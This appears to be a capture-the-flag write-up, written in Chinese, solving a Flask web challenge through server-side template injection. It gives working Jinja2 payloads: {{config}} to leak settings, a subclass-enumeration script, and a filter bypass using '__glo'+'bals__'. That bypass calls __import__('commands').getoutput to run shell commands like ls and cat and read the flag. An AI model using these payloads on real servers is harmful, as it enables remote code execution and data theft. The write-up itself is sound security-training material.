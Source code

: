![[Pasted image 20221227093348.png|500]]

---
首页长这样

![[Pasted image 20221227093716.png|700]]

![[Pasted image 20221227093744.png]]

尝试传一些奇怪的东西
```python
/?search={{7*7}}
```

```
You searched for:
49
```

存在`SSTI`

```python
/?search={{config}}
```

```
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_NAME': 'session', 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_SAMESITE': None, 'PROPAGATE_EXCEPTIONS': None, 'ENV': 'production', 'DEBUG': False, 'SECRET_KEY': 'CCC{f4k3_Fl49_:v} CCC{the_flag_is_this_dir}', 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': '/', 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': False, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'TRAP_HTTP_EXCEPTIONS': False}>
```

`url_for`用不了QAQ

使用脚本找找`__builtins__`

```python
num = 0
for item in ''.__class__.__mro__[2].__subclasses__():
    try:
         if '__builtins__' in item.__init__.__globals__:
             print num,item
         num+=1
    except:
        num+=1

```

```
58 <class 'warnings.WarningMessage'>
59 <class 'warnings.catch_warnings'>
60 <class '_weakrefset._IterationGuard'>
61 <class '_weakrefset.WeakSet'>
71 <class 'site._Printer'>
76 <class 'site.Quitter'>
77 <class 'codecs.IncrementalEncoder'>
78 <class 'codecs.IncrementalDecoder'>
```

这题给`__global__`过滤了太狠毒了QAQ，服务端`__init__`可以直接通过索引访问元素，本地运行会报错==

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls')}}
```

```
You searched for:
bin boot dev etc flasklight home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('ls flasklight')}}
```

```
You searched for:
app.py coomme_geeeett_youur_flek
```

```python
/?search={{[].__class__.__base__.__subclasses__()[58].__init__['__glo'+'bals__']['__builtins__']['__import__']('commands').getoutput('cat flasklight/coomme_geeeett_youur_flek')}}
```

```
You searched for:
flag{b1e72009-df67-40c1-b2ae-c24c0a679158}
```

#Web #python #flask #SSTI #RCE 